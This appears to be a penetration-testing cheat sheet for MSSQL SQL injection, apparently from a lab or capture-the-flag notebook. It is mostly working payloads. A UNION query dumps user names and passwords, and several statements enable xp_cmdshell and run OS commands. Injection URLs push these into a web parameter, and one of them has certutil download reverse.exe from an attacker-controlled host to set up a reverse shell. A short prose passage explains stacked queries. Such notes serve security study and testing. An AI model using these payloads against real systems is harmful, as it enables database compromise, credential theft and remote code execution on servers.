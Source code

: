 # MSSQL

{% embed url="https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% code overflow="wrap" fullWidth="true" %}
```sql
https://portswigger.net/web-security/sql-injection/cheat-sheet 
https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MSSQL%20Injection/

' union select concat(name,0x20,pass),2 from users--
# We can try to read files or write files
https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql
```
{% endcode %}

##

{% code overflow="wrap" fullWidth="true" %}
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';

http://MACHINE_IP/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --

impacket-mssqlclient Administrator:password@$IP -windows-auth
SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM master.information_schema.tables;
SQL> select * from master.dbo.$TABLE;
SQL> select * from master.sys.sysusers;
SQL> select * from sysusers;
```
{% endcode %}

## Stacked Queries

SQL injection attacks can come in various forms. A technique that often gives an attacker a lot of control is known as a "stacked query". Stacked queries enable attackers to terminate the original (intended) query and execute additional SQL statements in a single injection, potentially leading to more severe consequences such as data modification and calls to stored procedures or functions.

It is also possible to manually enable **xp\_cmdshell** in SQL Server through `EXECUTE` (**EXEC**) queries. Still, it requires the database user to be a member of the **sysadmin** fixed server role or have the `ALTER SETTINGS` server-level permission to execute this command. However, as mentioned previously, misconfigurations that allow this execution are not too uncommon.
